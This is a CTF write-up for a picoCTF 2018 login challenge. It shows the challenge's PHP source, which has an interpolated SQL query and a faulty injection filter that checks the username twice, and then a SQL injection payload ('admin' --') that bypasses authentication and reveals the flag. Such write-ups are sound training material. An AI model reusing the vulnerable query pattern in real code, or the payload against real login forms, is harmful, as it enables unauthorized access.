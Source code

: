 # Problem
There is a website running at [http://2018shell1.picoctf.com:64349](http://2018shell1.picoctf.com:64349/). Try to see if you can login!

## Hints:

## Solution:

After we login, we can see link for the [source code](http://2018shell1.picoctf.com:64349/login.txt), the code is:
```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();
    
    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }
  
?>
```

We can just inject some SQL:
> Username: admin' --
> Password: 

The result query will be:
```SQL
SELECT 1 FROM users WHERE name='admin' -- ' AND password='$password'
```

We get:
```
Logged in!
Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}
```

OWNed it!

Flag: picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}
